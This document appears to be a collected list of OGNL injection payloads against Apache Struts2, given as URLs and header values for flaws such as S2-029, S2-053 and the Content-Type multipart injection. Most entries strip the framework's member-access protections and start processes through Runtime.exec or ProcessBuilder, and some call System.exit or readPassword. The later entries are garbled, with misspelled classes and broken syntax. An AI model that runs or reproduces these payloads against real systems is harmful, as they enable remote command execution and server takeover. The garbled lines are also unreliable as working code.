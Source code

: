 * http://127.0.0.1/struts2-blank/example/HelloWorld.action?class.classLoader.resources.context.parent.pipeline.first.suffix=.jsp
* http://www.glassy.com/Struts2Demo_war_exploded/s2029.action?message=(#_memberAccess['allowPrivateAccess']=true,#_memberAccess['allowProtectedAccess']=true,#_memberAccess['excludedPackageNamePatterns']=#_memberAccess['acceptProperties'],#_memberAccess['excludedClasses']=#_memberAccess['acceptProperties'],#_memberAccess['allowPackageProtectedAccess']=true,#_memberAccess['allowStaticMethodAccess']=true,@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('open /Applications/Notes.app/').getInputStream()))
* http://www.glassy.com/struts2-showcase/home11.action?method:#_memberAccess=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS,@java.lang.Runtime@getRuntime().exec(#parameters.cmd[0]),d&cmd=/Applications/Notes.app/Contents/MacOS/Notes
* Content-Type:%{(#glassy='multipart/form-data').(#_memberAccess=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#a=(new java.lang.ProcessBuilder('/Applications/Notes.app/Contents/MacOS/Notes')).start())}
* Content-Disposition: form-data; name="upload"; filename="%{#context['com.opensymphony.xwork2.dispatcher.HttpServletResponse'].addHeader('X-Test','Kaboom')}"
* name=${(#glassy='multipart/form-data').(#_memberAccess=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#a=(new java.lang.ProcessBuilder('/Applications/Notes.app/Contents/MacOS/Notes')).start())}&age=11&__checkbox_bustedBefore=true&description=22
* http://www.glassy.com/Struts2Demo_war_exploded/s2053.action?name=%{(#_memberAccess=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#a=(new java.lang.ProcessBuilder('/Applications/Notes.app/Contents/MacOS/Notes')).start())}
* %{@java.lang.System.currentTimeMillis()}
* %{@java.lang.System.getProperty("a")}
* %{@java.lang.System.exit（）}
* %{ #_memberAccess.allowStaticMethodAccess=true,#context["xwork.MethodAccessor.denyMethodExecution"]=false,@java.lang.ThreadGroup@destory()}
* %{@"java.lang.ProcessBuilder"}
* %{ #_memberAccess.allowStaticMethodAccess=true,#context["xwork.MethodAccessor.denyMethodExecution"]=false,@java.lang.inheritableThreadlocal.get()  }
* %{@java.lang.shuntdown（）}
* %{ #_memberAccess.allowStaticMethodAccess=true,#context["xwork.MethodAccessor.denyMethodExecution"]=false, java.lang.ThreadLocal@remove()}
* %{ #_memberAccess.allowStaticMethodAccess=true,#context["xwork.MethodAccessor.denyMethodExecution"]=false,@java.lang.Process @waitfor()}
* %{@java.lang.Runtime"}
* %{ #_memberAccess.allowStaticMethodAccess=true,#context["xwork.MethodAccessor.denyMethodExecution"]=false,@Java.lang.Object @waitfor()}
* %{ #_memberAccess.allowStaticMethodAccess=true,#context["xwork.MethodAccessor.denyMethodExecution"]=false,@java.lang.Class  @getEnclosingClass()}
* %{ #_memberAccess.allowStaticMethodAccess=true,#context["xwork.MethodAccessor.denyMethodExecution"]=false,@java.lang.ClassLoader @clearAssertionStatus()}
* %{#_memberAccess.allowStaticMethodAccess=true,     #context["xwork.MethodAccessor.denyMethodExecution"]=false,@javax.script.ScriptEngineManage@getEngineByName("JavaScript")}
* %{#_memberAccess.allowStaticMethodAccess=true,     #context["xwork.MethodAccessor.denyMethodExecution"]=false,@javax.persistence.EntityManager@remove("")}
* %{#_memberAccess.allowStaticMethodAccess=true,     #context["xwork.MethodAccessor.denyMethodExecution"]=false,@javax.servlet.ServletContext@removeAttribute(String name)}
* %{#memberAccess=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS，@java.lang@avaoableProcessors()}
* %{@java.io.BufferedInputStream.close()}
* %{#_memberAccess.allowStaticMethodAccess=true  ,@java.io.BufferedInputStream@close()}
* %{#excludeProperties=@java.util.Collections@EMPTY_SET,@java.io.BufferedInputStream@close()}
* %{@java.io.BufferedOutputStream.Write(0)}
* %{#excludeProperties=@java.util.Collections@EMPTY_SET,@java.io.BufferedOutputStream.Write(5)}
* %{java.io.BufferedInputStream.Close()}
* %{#_memberAccess.allowStaticMethodAccess=true  ,java.io.BufferedInputStream@Close()}
* %{java.io.BufferedWriter.write(1)}
* %{#_memberAccess.allowStaticMethodAccess=true ,java.io.ByteArrayInputStream@close() }
* %{@java.io.ByteArrayOutputStream.write(256)}
* %{@java.io.CharArrayReader.read()}
* %{#_memberAccess['allowPrivateAccess']=true,@java.io.CharArrayWriter.append('c') }
* %{#f=#_memberAccess.getClass().getDeclaredField('allowStaticMethodAccess'),#f.setAccessible(true),#f.set(#_memberAccess,true),java.io.Console@readPassword() }
* %{@java.io.DataInputStream.readUTF()}
* %{@java.io.BufferedInputStream.write(1) }